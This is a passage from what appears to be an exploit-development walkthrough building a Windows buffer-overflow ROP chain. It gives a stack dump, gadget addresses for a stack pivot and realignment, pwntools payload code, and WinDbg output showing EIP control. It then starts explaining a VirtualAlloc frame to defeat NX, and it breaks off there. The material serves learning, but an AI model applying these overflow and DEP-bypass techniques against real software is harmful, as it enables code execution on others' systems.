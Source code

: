 I'm also going to update the script to land esp at `BBBB` instead of `CCCC`

Looking at the stack layout:
```
41414141 41414141 41414141 41414141
41414141 41414141 41414141 41414141
41414141 41414141 41414141 41414141
41414141 41414141 10094A53 41414141
43434343 43434343 43434343 43434343
43434343 43434343 43434343 43434343
43434343 43434343 43434343 43434343
43434343 43434343 43434343 10039F9E
```
We are going to need to pivot over `10039F9E` anyways so may as well do it with the stack alignment resulting in a realignment of `0x28`

```
0x10127d80: add esp, 0x20; ret;
```

off by `0xc` :/

```
0x10136de0: add esp, 0x2c; ret;
```

updated code
```
stack_pivot = 0x10039f9e # add esp, 0x4e8; ret 0x18;
addr_realign = 0x10136de0 # add esp, 0x2c; ret;
rop_start = deref_off - 4

body = b'A' * rop_start
body += pwn.p32(addr_realign)
body += b'B' * (eip_off - len(body))
#body += b'D' * 4
body += pwn.p32(stack_pivot)
body += b'C' * 4
body += b'D' * (max_buf - len(body))
```

```
0:007> 
eax=00000000 ebx=00000000 ecx=10039f9e edx=77638fd0 esi=00000000 edi=00000000
eip=43434343 esp=02ccfa94 ebp=02ccf580 iopl=0         nv up ei pl nz ac pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000216
43434343 ??              ???
```

Now we dont need to worry about stack pivoting anymore.

## Virtual Alloc Stack Frame
As shown before the stack is currently NX so we can use something like `VirtualProtect` or `VirtualAlloc` to change the page permissions to RWX and execute shellcode on the stack. 
To do this we need to create a stack frame for VirtualAlloc and then call a pointer to VirtualAlloc to execute the function. The easiest way to do this is with the `pushad; ret;` opcodes. What this will do is push a bunch of registers to the stack:
